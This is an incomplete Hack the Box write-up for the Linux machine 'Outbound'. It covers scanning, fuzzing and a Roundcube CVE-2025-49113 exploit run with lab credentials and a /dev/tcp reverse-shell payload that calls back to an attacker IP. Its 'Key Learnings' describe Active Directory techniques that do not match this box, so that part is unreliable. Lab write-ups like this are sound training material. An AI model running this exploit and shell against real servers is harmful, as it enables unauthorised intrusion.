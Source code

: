 # Outbound

**Platform: Hack the Box**

**OS: Linux**

**Diffculty: Easy**


## Table of Contents
- [Key Learnings](#key-learnings)
- [Walkthrough](#walkthrough)
- [Remediation Summary](#remediation-summary)


## Key Learnings
- Familiarize using tools without NTLM authentication. Use tools with only Kerberos authentication
- Learn more about Kerberos authentication on Active Directory
- Learn about Active Directory Recycle bin and the deleting object process with it enabled
- Enumerate and restore deleted user with bloodyAD
- Decrypt DPAPI keys with Impacket's Dpapi.py
- Exfiltrate NTDS.dit and the SYSTEM registry hive and obtain domain hashes with secretsdump


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan

<img width="711" height="290" alt="image" src="https://github.com/user-attachments/assets/5b58b511-79f5-47c5-a6c1-a3365116cf5f" />


2. Nmap shows only SSH and HTTP ports open. Visiting the website automatically redirects us to a mail server at mail.outbound.htb. Enumerate subdomains and do dirbusting.

`ffuf -u http://mail.outbound.htb/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fs 5327`

<img width="696" height="101" alt="image" src="https://github.com/user-attachments/assets/4b6a549c-2b17-4407-aee3-6d91385cbe58" />

3. Found a roundcube webmail server! 

<img width="463" height="404" alt="image" src="https://github.com/user-attachments/assets/c35646fa-5f2e-44ae-87d3-78f3330a4e40" />

4. Googling for Roundcube exploits, we find a PHP Authenticated Remote Code Execution script. Running the script, we confirm we have RCE on the target machine

`sudo php /opt/CVE-2025-49113-Roundcube-Authenticated-RCE.php http://mail.outbound.htb/roundcube/ tyler LhKL1o9Nm3X2 'sh -i >& /dev/tcp/10.10.14.176/80 0>&1'`

<img width="849" height="155" alt="image" src="https://github.com/user-attachments/assets/f8cfbd2e-02b1-4ad4-ac84-b3c289ecee64" />

<img width="587" height="30" alt="image" src="https://github.com/user-attachments/assets/18a87b90-903f-4c18-8951-a29be063befe" />

5. 

